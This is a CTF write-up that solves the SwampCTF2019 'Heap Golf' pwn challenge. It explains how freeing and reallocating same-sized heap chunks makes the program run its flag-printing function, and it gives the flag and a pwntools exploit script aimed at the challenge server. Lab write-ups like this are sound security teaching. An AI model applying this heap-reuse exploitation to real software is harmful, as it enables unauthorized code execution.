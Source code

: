 # Heap Golf

This is a pwning challenge for SwampCTF2019.


## Reconnaissance

This is a 64-bit ELF binary, not stripped so there are debugging symbols.

Running `strings` on it shows a few that are interesting:

```
system
cat flag.txt
target green provisioned.
enter -1 to exit simulation, -2 to free course.
Size of green to provision:
You're too far under par.
```

It has partial RELRO only and no PIE, so I could overwrite the GOT if I wanted.

Opening it in IDA, there's a function `win_func` that cats the flag using `system`. Okay, so I just need to call that function.

Now oddly I can run the binary locally from command line and remotely using `pwnlib`, but when I try to run it locally with `pwnlib` it hangs. A teammate noted that for some reason the local version of the application writes to `stdin` and reads from `stdout`! So I had to go in with a hex editor and change that back.

The idea seems to be that the fifth hole to be allocated has to fill the same space in memory as the first to be allocated. So I just need to malloc four bins of size 0x30, then free the course, then malloc four bins of size 0x30 again and the last one will occupy the same space in memory as the first "hole" that was malloced.

Easy enough!
`flag{Gr34t_J0b_t0ur1ng_0ur_d1gi7al_L1nk5}`

Here's the exploit code:

```
# exploit-heap-golf

from pwn import *
from time import sleep

local = True
if local:
	p = process('./heap_golf1')
	DELAY = 0.1
else:
	p = remote('chal1.swampctf.com', 1066)
	DELAY = 0.5


def send_malloc_request(n):
	p.send(str(n) + "\n")
	p.recvuntil("provision:")

def free_course():
	p.send("-2\n")
	p.recvuntil("provision:")

p.recvuntil("provision:")
for i in range(4):
	send_malloc_request(40)

free_course()

for i in range(3):
	send_malloc_request(40)

p.send("40\n")

p.interactive()
```

### Comparison to other approaches

The other write-ups on CTFTime all take the same approach. I appreciated [this write-up](https://screenshotwriteups.github.io/#8) for its illustration of the entire exploit with a single screenshot. 
